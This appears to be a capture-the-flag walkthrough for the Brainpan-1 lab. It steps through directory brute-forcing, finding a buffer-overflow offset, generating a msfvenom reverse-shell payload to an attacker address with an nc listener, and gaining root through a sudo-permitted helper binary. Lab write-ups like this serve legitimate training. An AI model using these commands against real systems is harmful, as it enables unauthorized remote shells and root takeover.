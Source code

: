 # Brainpan-1
Walkthrough - Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.
 
# 1. python3 threader.py 
here we find two port 9999, 10000 are opened and at 10000 SimpleHTTPServer 0.6 (Python 2.7.3) .
# 2. A web portal was live.

# 3. I used gobuster for directory traversal 
``` gobuster  dir  -u http://http://10.10.188.178:10000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  ```
# Found /bin directory

![alt text](./brainpan.png)

Download brainpan.exe file 
# Open File In Immunity Debugger 
Start running

Now bruteforcing by 

``` nc ip 9999 ```
 
 ## I found 
 A buffer overflow while giving the 900 'A' .
 Generate cyclic pattern using metasploit-framework 

 ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900 ```

Found an offset of 524
![alt text](./binary.png)

Now edit the value of offset to 524 and assign the value to return address BBBB then run again  and see return is overwritten.

# Generate Badchar 
-> add badchar to payload 
-> exclude '\x00' from the 

``` !mona bytearray -b '\x00'```

-> Remove '\x00' from badchars

-> run the exploit then 

->run 
``` !mona compare -f c:\mona\brainpan\bytearray.bin```

Then I find the no badchars 

-> then run

```!mona jmp -r esp -cpb '\x00'```

Find ``` jmp esp``` 

I found ``0x311712f3``

-> Generate payload using msfvnom

``msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.47.191 LPORT=4444 -f c -b "\x00"``

-> Replace payload with generated payload 

->Prepend and append no ops '\x90' 

-> Run exploit

->Put a listener ``nc -lvnp 4444```
## Now you are able to gain reverse shell
-> Now change the ip to machine address then in msfvenom command and replace generated payload

-> Now run again 

## -> OOhOO now you got the shell.
But the shell command is not working properly I typed ls but not worked then i typed dir ,It worked but linux commands are not working then i see the ``checksrv.sh`` file i found it is using absolute path for command . To fix you can follow this link but not sure that it will work for you
 https://askubuntu.com/questions/1091553/how-do-i-fix-error-opening-terminal-unknown-on-ubuntu-server

-> I run /usr/bin/sudo -l
```
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

Here `` anansi_util`` can run without being root 
Run that found -
``` Z:\home\puck>/usr/bin/sudo /home/anansi/bin/anansi_util

Z:\home\puck>Usage: /home/anansi/bin/nansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Run ```/usr/bin/sudo /home/anansi/bin/anansi_util manual id ```

then `` !/bin/bash``
Now you are a root user

![alt text](./root.png)
